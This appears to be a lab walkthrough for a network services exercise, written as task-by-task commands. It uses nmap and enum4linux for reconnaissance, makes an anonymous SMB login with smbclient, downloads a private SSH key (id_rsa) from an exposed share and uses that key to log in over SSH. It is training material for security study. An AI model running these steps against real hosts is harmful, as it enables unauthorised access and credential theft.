







## Network Services

#### Task-3

```
nmap <IP> -vv
```

```
enum4linux <IP> -a
```


#### Task-4

We have username and share name provided in the question

```
smbclient //10.48.181.56/secret -U suit -p 445
```

We are trying anonymous login here

```
smbclient -L 10.48.181.56
```

After enumerating we will find a share name called profiles



```
smbclient //10.48.181.56/profiles -U Anonymous
```

We are logged in



```
more "Working From Home Information.txt"
```

```
cd .ssh
```

```
ls
```

```
get id_rsa
```



Now we will use this rsa file to login

```
chmod 600 id_rsa
```

```
ssh -i id_rsa cactus@<IP>
```



```
ls
```

```
cat smb.txt
```


#### Task-6 

This one scans a lot of ports so it takes time

```
nmap -p- -vv -T5 10.48.148.51
```



```
nmap -p8012 -v  10.48.148.51
```

We found a port 8012 

```
telnet 10.48.148.51 8012
```



#### Task-9

```
nmap -F 10.49.136.137 
```



